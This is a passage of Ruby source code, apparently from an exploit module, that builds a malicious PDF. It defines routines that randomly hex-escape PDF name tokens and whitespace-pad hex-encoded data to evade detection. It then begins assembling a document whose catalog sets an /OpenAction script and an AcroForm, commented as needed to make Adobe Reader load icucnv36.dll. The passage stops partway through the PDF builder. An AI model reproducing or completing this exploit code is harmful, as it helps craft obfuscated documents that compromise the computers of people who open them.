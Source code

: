 		def ioDef(id)
			"%d 0 obj \n" % id
		end
	 
		def ioRef(id)
			"%d 0 R" % id
		end
	 
	 
		#http://blog.didierstevens.com/2008/04/29/pdf-let-me-count-the-ways/
		def nObfu(str)
			#return str
			result = ""
			str.scan(/./u) do |c|
				if rand(2) == 0 and c.upcase >= 'A' and c.upcase <= 'Z'
					result << "#%x" % c.unpack("C*")[0]
				else
					result << c
				end
			end
			result
		end
	 
	 
		def ASCIIHexWhitespaceEncode(str)
			result = ""
			whitespace = ""
			str.each_byte do |b|
				result << whitespace << "%02x" % b
				whitespace = " " * (rand(3) + 1)
			end
			result << ">"
		end
	 
	 
		def make_pdf(ttf, js)
	 
			#swf_name = rand_text_alpha(8 + rand(8)) + ".swf"
	 
			xref = []
			eol = "\n"
			endobj = "endobj" << eol
	 
			# Randomize PDF version?
			pdf = "%PDF-1.5" << eol
			pdf << "%" << RandomNonASCIIString(4) << eol
	 
			# catalog
			xref << pdf.length
			pdf << ioDef(1) << nObfu("<<") << eol
			pdf << nObfu("/Pages ") << ioRef(2) << eol
			pdf << nObfu("/Type /Catalog") << eol
			pdf << nObfu("/OpenAction ") << ioRef(11) << eol
			# The AcroForm is required to get icucnv36.dll to load
			pdf << nObfu("/AcroForm ") << ioRef(13) << eol
			pdf << nObfu(">>") << eol
			pdf << endobj
	 
